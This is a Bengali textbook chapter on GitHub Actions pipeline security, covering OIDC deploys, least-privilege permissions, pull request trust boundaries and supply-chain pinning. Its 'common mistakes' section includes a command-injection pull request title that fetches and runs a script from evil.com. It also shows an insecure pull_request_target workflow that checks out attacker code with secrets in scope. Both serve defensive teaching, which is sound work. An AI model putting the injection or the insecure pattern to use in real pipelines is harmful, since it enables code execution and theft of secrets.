

# GitHub Actions ও Pipeline Security {#ch-github-actions}

> এমন একটি workflow লিখুন যা test, build আর deploy করে, কোনো দীর্ঘস্থায়ী credential রাখে না, আর কোনো pull request যাকে hijack করতে পারে না।

**এই অধ্যায়ে:** workflow, job আর step · store করা key-এর বদলে OIDC · least-privilege `permissions` · pull request-এর trust boundary · pinning, lockfile আর provenance

## 💡 মূল ধারণা

একটি workflow হলো কয়েকটি job-এর সমষ্টি, আর **প্রতিটি job একটি পরিষ্কার machine পায়** (একটি runner)। আপনি
dependency declare না করলে job-গুলো parallel-এ চলে। এদের মাঝে disk-এর কিছুই টিকে থাকে না, তাই file সরে artefact বা
cache হিসেবে। আগে job graph-টা design করুন, তাহলে YAML প্রায় নিজে থেকেই লেখা হয়ে যায়।

দ্বিতীয় সত্যটা ক্ষমতা নিয়ে। Pipeline যেকোনো একজন developer-এর চেয়ে বেশি privilege রাখে। এর কাছে source আছে, cloud
credential আছে, আর registry-তে push করার access আছে। একটি compromised laptop একজন engineer-কে প্রভাবিত করে। একটি
compromised pipeline attacker-এর code তাদের হয়ে sign করে দেয়। তাই pipeline যা রাখে তা কমান, যা ব্যবহার করে তা pin
করুন, আর যা করেছে তা record করুন।

> ⚠️ **যা বদলাতে থাকে:** action-এর major version মোটামুটি প্রতি বছর বদলায়। 2026 পর্যন্ত `actions/checkout` v6-এ আর
> `actions/setup-node` v7-এ আছে। Provenance format আর SLSA level-ও এখনো স্থির হচ্ছে।
> টেকসই নীতি: একটি tag বদলানো যায়, একটি commit SHA বা digest বদলানো যায় না। SHA দিয়ে pin করুন।

## কীভাবে কাজ করে



**একটি workflow ছড়িয়ে পড়ে কয়েকটি job-এ; `needs:`-ই parallel job-গুলোকে আবার একটি ক্রমে ফেরায়।**

**একটি সম্পূর্ণ CI workflow:**

```yaml
name: CI

on:
  pull_request: { branches: [main] }
  push: { branches: [main] }

# Cancel superseded runs on the same branch — saves runner minutes
concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: true

permissions:
  contents: read # least privilege by default; widen per job

jobs:
  test:
    runs-on: ubuntu-latest
    strategy:
      fail-fast: false
      matrix:
        node: [24, 26] # the two LTS lines in support
        shard: [1, 2] # split the suite across runners
    steps:
      - uses: actions/checkout@v6
      - uses: actions/setup-node@v7
        with:
          node-version: ${{ matrix.node }}
          cache: npm # built-in dependency caching
      - run: npm ci
      - run: npm run lint && npm run type-check
      - run: npm test -- --shard=${{ matrix.shard }}/2 --coverage

  build:
    needs: test # only runs if every matrix leg passed
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v6
      - uses: docker/setup-buildx-action@v3
      - uses: docker/build-push-action@v6
        with:
          push: false
          tags: api:${{ github.sha }}
          cache-from: type=gha # layer cache backed by Actions cache
          cache-to: type=gha,mode=max
```

`concurrency` পুরোনো হয়ে যাওয়া commit-এর জন্য খরচ করা বন্ধ করে। `fail-fast: false` matrix-এর একটি fail করা অংশকে
বাকিগুলো লুকিয়ে ফেলতে দেয় না। `cache: npm` install-কে কয়েক মিনিট থেকে কয়েক সেকেন্ডে নামিয়ে আনে।

Integration test-এর জন্য একটি আসল database `services:` container হিসেবে চালু করুন। Mock করবেন না। এটাকে একটি
`--health-cmd` দিন। সেটা না থাকলে job container-এর সঙ্গে race করে, আর প্রতি দশবারে মোটামুটি একবার fail করে।

একটি pipeline-এ ঢোকার attack-এর পথ অল্প কয়েকটি, আর সেগুলো সবার জানা। এ কারণেই এদের উত্তর দেওয়া যায়:

| ঢোকার পথ | এটা কী পায় | নিয়ন্ত্রণ |
| ------- | ------------ | ----------- |
| Store করা একটি দীর্ঘস্থায়ী cloud key | Rotate না হওয়া পর্যন্ত সেই role যা করতে পারে, সবকিছু | OIDC federation |
| বদলানো যায় এমন tag-এ একটি third-party action | আপনার job-এ যেকোনো code | একটি commit SHA-তে pin করুন |
| বদলানো যায় এমন tag-এ একটি dependency বা base image | আপনার artefact-এ যেকোনো code | Lockfile, digest pinning |
| Secret scope-এ রেখে একটি fork-এর pull request | আপনার secret, একজন অজানা contributor-এর হাতে | `pull_request`, `pull_request_target` নয় |
| একটি `run:` block-এ untrusted event text | Runner-এ shell execution | `env:` দিয়ে পাঠান |

## কখন ব্যবহার করবেন

| পরিস্থিতি | পছন্দ | কারণ |
| -------- | ------ | ------ |
| একটি build bundle deploy job-এ সরানো | Artefact | না পেলে job fail করতে হবে, ধীর হলে চলবে না |
| Dependency আবার download করা এড়ানো | Lockfile-এর `hashFiles()` দিয়ে key করা cache | না পেলে শুধু সময় নষ্ট হয় |
| পঞ্চাশটি repo জুড়ে একই build-and-deploy | Reusable workflow | পুরো job, নিজস্ব runner, `secrets: inherit` |
| বারবার আসা একগুচ্ছ step, যেমন Node setup | Composite action | Caller-এর job-এর ভেতরে চলে |
| একজন contributor-এর fork-এ test চালানো | `pull_request` | Design অনুযায়ীই secret ছাড়া চলে |
| একটি fork-এর pull request-এ label বা comment দেওয়া | `pull_request_target` | শুধু metadata, কখনো head checkout করবেন না |
| একটি cloud account-এ deploy করা | OIDC, সঙ্গে একটি `environment` | কোনো store করা key নেই, আর একটি মানুষের gate আছে |

## OIDC দিয়ে Deploy — কোনো Static Key নয়

❌ Repository secret হিসেবে store করা দীর্ঘস্থায়ী IAM key কখনো rotate হয় না। যে এগুলো পড়তে পারে, সে-ই ব্যবহার করতে
পারে।

✅ **OIDC federation — এমন credential, যা এক ঘণ্টায় মেয়াদ হারায়:**

```yaml
deploy:
  runs-on: ubuntu-latest
  environment: production # gated by required reviewers
  permissions:
    id-token: write # required to request the OIDC JWT
    contents: read
  steps:
    - uses: actions/checkout@v6
    - uses: aws-actions/configure-aws-credentials@<full-commit-sha>
      with:
        role-to-assume: arn:aws:iam::123456789:role/github-deploy
        role-session-name: gha-${{ github.run_id }}
        aws-region: eu-west-1
    - run: |
        docker build -t $ECR/api:${{ github.sha }} .
        docker push $ECR/api:${{ github.sha }}
```

Job-টি GitHub-এর কাছে একটি signed JWT (একটি sign করা token) চায়। এর claim-গুলোতে repository, ref আর environment-এর
নাম থাকে। Cloud এগুলো একটি trust policy-র সঙ্গে মিলিয়ে দেখে, আর অস্থায়ী credential ফেরত দেয়। কিছুই store করা হয়
না, তাই কিছুই rotate করতে হয় না। Run-এর নামে session-এর নাম দিলে প্রতিটি cloud call-কে একটি workflow পর্যন্ত খুঁজে
বের করা যায়।

**Security আসলে থাকে trust policy-তে।** YAML শুধু চায়:

```json
{
  "Condition": {
    "StringEquals": {
      "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
      "token.actions.githubusercontent.com:sub": "repo:acme/api:environment:production"
    }
  }
}
```

> ⚠️ **OIDC-র সবচেয়ে সাধারণ ভুল হলো একটি ঢিলেঢালা `sub` শর্ত।** `repo:acme/*` organisation-এর যেকোনো repository-কে
> production role নিতে দেয়। এর মধ্যে একজন attacker-এর তৈরি করা নতুন repository-ও পড়ে। Repository pin করুন, আর
> environment বা branch-ও pin করুন।

Job-এর `environment` এমন কিছু নিয়ম যোগ করে, যা YAML-এ নয়, repository setting-এ থাকে। সেগুলো হলো required
reviewer, একটি wait timer, আর একটি branch restriction, যাতে শুধু `main` deploy করতে পারে। অন্য secret-এর জন্য,
যেমন third-party API key, একই OIDC identity দিয়ে runtime-এ একটি secrets manager থেকে সেগুলো আনুন।

## Least-Privilege Permission

Default `GITHUB_TOKEN` বেশিরভাগ job-এর যা দরকার, তার চেয়ে বেশি করতে পারে। ওপরের CI workflow-টি workflow-এর
default হিসেবে `contents: read` set করে। শুধু deploy job এটা বাড়ায়, `id-token: write` যোগ করে, যাতে শুধু সে-ই cloud
role নিতে পারে। Build আর deploy আলাদা job রাখুন, যাতে build compromise হলেও deploy করার ক্ষমতা না পাওয়া যায়।

## Pull Request-এর Trust Boundary

`pull_request` fork-এর code secret **ছাড়া** চালায়। `pull_request_target` চলে base repository-র context-এ, secret
**সহ**, আর একটি writable token নিয়ে।

❌ **একটি সুপরিচিত exploit pattern:**

```yaml
on: pull_request_target # runs with repository secrets
jobs:
  build:
    steps:
      - uses: actions/checkout@v6
        with:
          ref: ${{ github.event.pull_request.head.sha }} # the attacker's code
      - run: npm ci && npm run build # arbitrary code, full secret access
```

শুধু একটি install script-ই যথেষ্ট। Attacker-এর build সফল হওয়ার কোনো দরকারই নেই। এই একই boundary-র কারণে একটি
self-hosted runner কখনো public repository-কে serve করা উচিত নয়: যেকোনো fork আপনার machine-এ code চালায়।

## Supply Chain: Pinning, Lockfile আর Provenance

| ঝুঁকি | প্রতিকার |
| ---- | ---------- |
| একটি ক্ষতিকর package version | Commit করা lockfile-এর বিপরীতে `npm ci` |
| অন্য দিকে ঘুরিয়ে দেওয়া একটি action tag | Third-party action-কে একটি **পুরো commit SHA**-তে pin করুন |
| বদলানো যায় এমন একটি base image | Digest দিয়ে pin করুন — `@sha256:…` |
| একটি typosquatted package | Registry-র allowlist রাখুন, একটি internal registry দিয়ে proxy করুন |

2025 জুড়ে npm আর CI marketplace-এর attack-গুলো কাজ করেছে, কারণ বেশিরভাগ ব্যবহারকারী বদলানো যায় এমন tag ব্যবহার
করতেন। First-party `actions/*` একটি major tag-এ রাখা স্বীকৃত আপস। বাকি সবকিছু SHA দিয়ে pin করুন।

Dependency (Dependabot), code (CodeQL) আর build করা image (Trivy) scan করুন। শুধু high আর critical-এ fail করান, নইলে
team gate এড়িয়ে যেতে শিখে যায়। একটি **SBOM** (software bill of materials) artefact-এর ভেতরের সবকিছুর তালিকা দেয়,
তাই *"এই CVE কি আমাদের প্রভাবিত করে?"* একটি query হয়ে যায়। Artefact-কে `cosign` বা build provenance
attestation দিয়ে sign করুন। তারপর deploy-এর সময় signature যাচাই করুন। যে signature কেউ check করে না, সেটা শুধুই
metadata।

এই একই build আর deploy job দিয়েই release configuration ship হয়, যেমন একটি frontend যে security header set করে। তাই
সেই header-গুলোও code-এর মতোই review আর pinning পায়।

## একটি Leak হওয়া Token কী করে

একটি leak হওয়া cloud key attacker-কে সেই role যা করতে পারে সবকিছু দেয়, যতক্ষণ না কেউ সেটা rotate করে। Write
scope-সহ একটি leak হওয়া `GITHUB_TOKEN` code push করতে বা একটি release বদলাতে পারে। Secret-কে repository-তে পৌঁছাতে
দেবেন না, কয়েক স্তরে: একটি pre-commit hook, remote-এ push protection, আর পুরো history-র ওপর একটি CI scan। Scan-এর
`fetch-depth: 0` দরকার, নইলে এটা শুধু সর্বশেষ commit দেখে।

> ⚠️ **একটি leak হওয়া secret push হওয়ার মুহূর্তেই compromised**, আপনি force-push করে সরিয়ে দিলেও।
> Fork, clone আর CI cache এর copy রেখে দেয়। আগে rotate করুন, তারপর history পরিষ্কার করুন। ক্রমটা গুরুত্বপূর্ণ।

## সাধারণ ভুল

❌ **একটি `run` block-এ event data interpolate করা।** ধরুন একটি pull request-এর title `"; curl evil.com/x.sh | sh`।
এটা runner-এ execute হয়, কারণ shell line-টি দেখার আগেই `${{ }}` substitute করে ফেলে।
✅ এটাকে `env:` দিয়ে পাঠান, যাতে shell এটাকে data হিসেবে ধরে:

```yaml
- env:
    TITLE: ${{ github.event.pull_request.title }}
  run: echo "Title: $TITLE"
```

❌ **Third-party action-কে একটি tag-এ pin করা।** Action-এর মালিক যে-ই হোক, `@v2`-কে নতুন code-এর দিকে ঘুরিয়ে দিতে
পারে। ✅ একটি পুরো commit SHA-তে pin করুন, যেমন `some-org/deploy-action@a1b2c3d4…`।

❌ **যে commit-এ token leak হয়েছিল সেটা delete করে ঠিক হয়ে গেছে ভাবা।** Copy আগেই তৈরি হয়ে গেছে।
✅ আগে rotate করুন। History rewrite করাকে গোছগাছ হিসেবে দেখুন, প্রতিকার হিসেবে নয়।

❌ **এমন একটি cache key, যা কখনো বদলায় না।** একবার লেখা হলে একটি entry আর বদলানো যায় না, তাই এটা কখনো update
হয় না। ✅ `hashFiles('**/package-lock.json')` দিয়ে key করুন, আর prefix fallback হিসেবে `restore-keys` রাখুন।

## 🔑 মূল শিক্ষা

- প্রতিটি job একটি পরিষ্কার runner পায়, তাই file সরাতে artefact ব্যবহার করুন, আর আবার download এড়াতে cache।
- `permissions:` স্পষ্টভাবে declare করুন, `contents: read` থেকে শুরু করে, আর শুধু যে job-এর দরকার সেখানেই বাড়ান।
- Store করা cloud key-এর বদলে OIDC ব্যবহার করুন, আর trust policy-র `sub`-কে একটি repository আর environment-এ pin
  করুন।
- Third-party action-কে commit SHA-তে আর base image-কে digest-এ pin করুন, কারণ বদলানো যায় এমন tag-ই supply chain-এর
  ফুটো।
- `pull_request_target`-এর সঙ্গে head commit checkout করলে আপনার secret একজন অজানা contributor-এর হাতে চলে যায়।

## Interview-এর প্রশ্ন

**Q: Credential store না করে একটি workflow-কে একটি cloud provider-এ কীভাবে authenticate করবেন?**

OIDC federation ব্যবহার করুন। Cloud account-এ GitHub-এর issuer register করুন, আর এমন একটি role তৈরি করুন যার
trust policy `sub` claim-কে একটি repository আর একটি environment-এ pin করে। Workflow-টি `id-token: write` দেয়। এটা
JWT-টি বদলে এমন credential নেয়, যা মোটামুটি এক ঘণ্টায় মেয়াদ হারায়। কে কোথায় deploy করতে পারবে, তা ঠিক করে trust
policy, YAML নয়।

**Q: `pull_request_target`-এর ঝুঁকি কী, আর কখন এটা ব্যবহার করবেন?**

এটা চলে base repository-র context-এ, secret আর একটি writable token নিয়ে। কিন্তু code আসতে পারে একটি untrusted
fork থেকে। এটা যদি head commit checkout করে আর কোনো install বা build step চালায়, তাহলে contributor-এর code আপনার
secret নিয়ে চলে। Contributor-এর code-এর জন্য `pull_request` ব্যবহার করুন, আর `pull_request_target` রাখুন labelling-এর
মতো metadata job-এর জন্য।

**Q: একটি reusable workflow আর একটি composite action-এর পার্থক্য কী?**

একটি reusable workflow call করা হয় job-স্তরে, পুরো job define করে, নিজের runner-এ চলে, আর `secrets: inherit` নিতে
পারে। একটি composite action call করা হয় step-স্তরে, আর caller-এর job-এর ভেতরে চলে। বারবার আসা step-এর গুচ্ছের
জন্য composite action ব্যবহার করুন, আর অনেক repository জুড়ে একটি পুরো pipeline একই রকম করতে reusable workflow।

**Q: কখন একটি self-hosted runner ব্যবহার করবেন, আর এর মূল্য কী?**

যখন job-এর এমন কিছু দরকার, যা একটি hosted runner দিতে পারে না: private network access, বিশেষ hardware, বা খুব বড়
একটি cache। মূল্য হলো আপনার pipeline-এর trust boundary-র ভেতরে একটি machine। এটাকে ephemeral হতে হবে, কখনো
public repository serve করবে না, আর production-মানের patching পাবে। বেশিরভাগ team-এর জন্য একটি hosted runner আর
একটি service container-ই ভালো উত্তর।

**Q: আপনার pipeline থেকে একটি token leak হয়েছে। আপনি কী করবেন, আর আগে থেকে কী থাকা দরকার?**

আগে rotate করুন, কারণ push হওয়ার মুহূর্তেই এটা compromised হয়ে গেছে। History rewrite করা শুধু গোছগাছ। তারপর
identity-টি কী করেছে তা দেখতে cloud-এর audit log ব্যবহার করুন। এটা তখনই কাজ করে, যখন role session-গুলো run ID বহন
করে। Commit SHA দিয়ে tag করা image আর immutable registry tag প্রমাণ করে আসলে কী চলেছিল।

## এরপর কী পড়বেন

- [Chapter ?? — Deployment Strategy, Rollback ও Feature Flag](#ch-deployment-strategies) — image নিয়ে deploy job-এর কী করা উচিত
- [Chapter ?? — Container Image: Build ও Hardening](#ch-docker-fundamentals) — digest pinning, build secret, আর কেন build cache আর ship করা layer একই জিনিস
- [Chapter ?? — Git-এর মূল কথা ও Recovery](#ch-git-fundamentals) — rotate করার পর history থেকে একটি secret সরানো
